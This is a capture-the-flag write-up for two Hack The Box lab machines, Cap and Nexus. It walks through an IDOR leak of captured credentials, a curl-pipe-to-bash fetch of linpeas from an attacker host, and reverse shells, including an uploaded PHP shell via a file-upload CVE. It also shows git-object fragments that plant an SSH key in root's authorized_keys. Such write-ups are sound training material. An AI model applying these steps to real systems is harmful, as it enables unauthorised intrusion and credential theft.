# CTF Write-ups Hack The Box

## Cap
Challenge description:
> Cap is an easy difficulty Linux machine running an HTTP server that performs administrative functions including performing network captures. Improper controls result in Insecure Direct Object Reference (IDOR) giving access to another user's capture. The capture contains plaintext credentials and can be used to gain foothold. A Linux capability is then leveraged to escalate to root.

After starting the machine we use nmap -sV to scan the target and discover services and versions:



We see ftp, ssh and https (gunicorn) open; First, we can try ftp with anonymous but login fails:



Because http is open we can browse directly an see the dashboard:



Navigating to ip config and network status outputs the result of the respective commands.

Navigating to security snapshot shows the endpoint **/data/1** -> if we manipualte the id to **/data/0** we confirm the IDOR and get access to a cap file:



We open the capture file in Wireshark and search for **pass**. Here we can see the ftp credentials:



And use the credentials to successfully connect via ftp:



### Linpeas Privilege Escalation

After downloading from github, we use python3 –m http.server 80 to setup a shell called from the folder with linpeas.sh


We connect with ssh on cap and retrieve the first flag:


After we run run: curl http://10.10.14.24/linpeas.sh | bash pipe to send the output to bash:


In the report we find python has cap_setuid capabilities which allows switching the UID. We can use the following for a python reverse shell:



And after escalalting privileges, we can retrieve the root flag:


## Nexus
Challenge description:
> Nexus is an easy-difficulty Linux machine that features an exposed Gitea repository leaking credentials and a job posting that reveals valid usernames. The leaked credentials provide access to Krayin CRM, which is vulnerable to CVE-2026-38526, leading to a shell as www-data. Further enumeration of the Krayin CRM configuration files reveals additional credentials that allow SSH access. Service enumeration reveals a Gitea template sync service vulnerable to directory traversal, which is leveraged to gain a shell as root.

First of all we bagin by using nmap -sV. We notice two open ports, corresponding to shh and http:



Since http is open, we can try browsing directly. However, we notice we get redirected to nexus.htb and proceed to add that address in our hosts configuration. Now when we visit the domain we see:



We navigate to the careers page and see two email addresses:


Since there is no other option available on the LP, we proceed to discover subdomains using ffuf:



We discover the git and billing subdomains which we then add to our hosts.

We explore the git repo, and in the commit histroy we can find a .env file containing a password. Next we access the billing domain. We try the email for he hiring manager and the earlier password and gain acces.



We see the app uses Krayin Version 2.2.0 which is subject to **CVE-2026-38526** – allowing unrestricted PHP file upload leading
to remote code execution.

We navigate to the email page and upload a php reverse shell. (Found here: https://github.com//pentestmonkey/php-reverse-shell)
We change the ip and port and save the file as png. We upload it as attachment, intercept the request in burp suite and change the extension to php before fowrarding. The response contains the location of the shell:



We start a netcat listener and visit the location to activate the shell:



We then enumerate the ~/krayin folder and find an .env file with credentials. We cat /etc/passwd and see a jones user. We can the use the discovered credentials to log in via ssh:



Where we can retrieve the first flag:



Further investigation reveals a systemd timer calling a script every two minutes. The script in case clones all template repositories and syncs them. 

The opportunity is for directory traversal since the script processes file paths from git ls-tree by using os.path.join() without sanitizing input.

Steps:
1. We generate a shh key locally
2. We use the known credentials (jones user with previously retrieved password) to login to gitea, where we create a new template repo and clone it locally:



3. In the locally created repo we add a python script that directly creates raw git objects with tree entries that allow directory traversal into **../../../../../root/.ssh/authorized_keys**

In short terms the script is:
- Reading an SSH public key from /tmp/.k.pub via this line `r=subprocess.run(["cat","/tmp/.k.pub"],capture_output=True,text=True)`
- Manually constructing git blob/tree/commit objects (without using normal git commands) via the `write_obj(data,t)` function
- Using a chain of ".." tree entries to walk the path back up to /root/.ssh/ via `for i in range(4): fir=write_obj(entry("40000","..",fir),"tree")`
- Placing that public key as authorized_keys inside that traversal path `root=write_obj(entry("100644","README.md",readme)+entry("40000","..",fir),"tree")`
- Writing the whole thing as a commit on main `open(os.path.join(".git","refs","heads","main"),"w").write(sha+"\n")`

4. We then push the file and use cat /var/log/template-sync.log to check for the updates:



This confirms our shh public key was written to the repo. We can now ssh as root and retrieve the last flag:


